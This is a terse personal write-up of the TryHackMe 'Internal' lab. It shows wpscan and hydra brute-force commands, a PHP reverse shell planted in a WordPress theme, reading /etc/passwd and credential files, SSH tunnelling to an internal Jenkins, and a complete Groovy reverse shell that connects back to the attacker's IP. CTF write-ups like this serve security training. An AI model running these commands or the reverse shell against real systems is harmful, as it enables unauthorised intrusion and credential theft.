 ```yaml
---
title: "THM: Internal Writeup"
date: 2021-12-01
categories:
  - Write-Ups
tags:
  - writeup
  - tryhackme
  - linux
---
```


## NOTES
my ip : 10.4.26.163
target: 10.10.66.29

#### brute force admin user
```
wpscan --url http://internal.thm/wordpress/wp-login.php --usernames admin --passwords /tmp/rockyou.txt
```
admin : my2boys

#### in wp admin dashboard, go to Appreance>Edit template>404.php upload php rev shell

#### run reverse shell
http://internal.thm/wordpress/wp-content/themes/twentyseventeen/404.php

```bash
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

./linpeas.sh gave following, nothing useful
```
$dbpass='B2Ud4fEOZmVq';
$dbuser='phpmyadmin';
```

```bash
find / -type f -name *.txt 2>/dev/null
cat /opt/wp-save.txt
aubreanna : bubb13guM!@#123

cd home/aubreanna
cat jenkins.txt
Jenkins service is running on 172.17.0.2:8080
```


#### now we do ssh tunnel to run this in our localhost
```bash
ssh -L 9999:172.17.0.2:8080 aubreanna@internal.thm
```

```bash
# hydra brute force
 hydra -l admin -P rockyou.txt -s 9999 127.0.0.1  http-post-form  "/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
 
 admin : spongebob
```
- Run Groovy Reverse Shell in Manage Jenkins> Script Console
 ```bash
 String host="10.4.26.163";
int port=8044;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
 ```
 
```bash
find / -type f -name *.txt 2>/dev/null
cat /opt/note.txt
root : tr0ub13guM!@#123
```